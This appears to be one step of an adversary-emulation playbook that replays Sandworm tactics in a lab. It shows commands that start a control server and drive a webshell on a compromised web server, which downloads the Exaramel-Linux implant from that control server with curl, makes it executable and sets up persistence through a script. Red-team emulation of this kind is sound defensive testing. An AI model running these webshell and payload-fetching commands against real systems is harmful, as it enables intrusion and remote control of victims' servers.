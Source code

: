 ### Step 13 - Upload and Execute Exaramel (Linux Variant)

:microphone: `voice track`

Sandworm downloads an ELF executable from the control server using curl.

The ELF executable is an implant based on Exaramel-Linux.

Once downloaded to disk, Sandworm sets Exaramel-Linux's file permissions to read-write-execute.

Finally, Sandworm executes Exaramel-Linux.

Exaramel-Linux establishes HTTPS C2 with the control server.

```
C2 Info

Connects to: 192.168.0.4:443

Protocol: HTTPS

File write: /var/www/html/centreon_module_linux_app64
```

#### ☣️ Procedures

:warning: Open a new terminal tab (ctrl+shift+t) and start the control server.

Double click the terminal tab to change its name. Name your terminal tab "control server" for easy identification.

```bash
cd wizard_spider/Resources/control_server && sudo ./controlServer
```

:warning: Go back to your P.A.S. webshell terminal.

Execute `curl` to download Exaramel-Linux to `/var/www/html/centreon_module_linux_app64`:

```bash
# P.A.S. Webshell can upload and download files to and from compromised hosts.

curl --insecure "https://10.0.1.5/search.php?cmd=curl+--insecure+https://192.168.0.4/getFile/Exaramel-Linux+-o+centreon_module_linux_app64"
```

Confirm 'centreon_module_linux_app64' downloaded successfully:

```bash
curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsah"
```

Make Exaramel-Linux executable via `chmod`.

```bash
# P.A.S. Webshell has the ability to modify file permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=chmod+755+centreon_module_linux_app64"
```

Insert 1-liner into `/var/www/html/include/tools/check.sh`; the 1-liner executes Exaramel-Linux.
